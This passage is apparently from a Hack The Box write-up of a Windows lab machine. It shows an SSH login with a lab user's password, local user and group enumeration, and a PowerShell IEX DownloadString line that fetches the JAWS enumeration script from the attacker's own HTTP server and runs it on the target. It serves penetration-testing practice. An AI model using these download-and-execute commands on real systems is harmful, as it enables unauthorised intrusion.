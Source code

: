 #### Let's do ssh connection to that

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/23.jpg)

```ssh
ssh l4mpje@10.10.10.134
bureaulampje
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/24.jpg)

```sh
net localgroup administrators
```

- members of the administrator group is administrator

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/25.jpg)

```ps
net user  l4mpje
net user Administrator
```

member of users

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/26.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/27.jpg)

- system modified in feb 22 as well

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/28.jpg)

#### Use JAWS windows enumeration script
- that on powershell

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/29.jpg)

```py
python3 -m http.server 8000
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/30.jpg)

- type powershell to get powershell from cmd

- download and execute jaws script in windows

```ps
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.241:8000/jaws-enum.ps1')
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/31.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/windows/9/32.jpg)
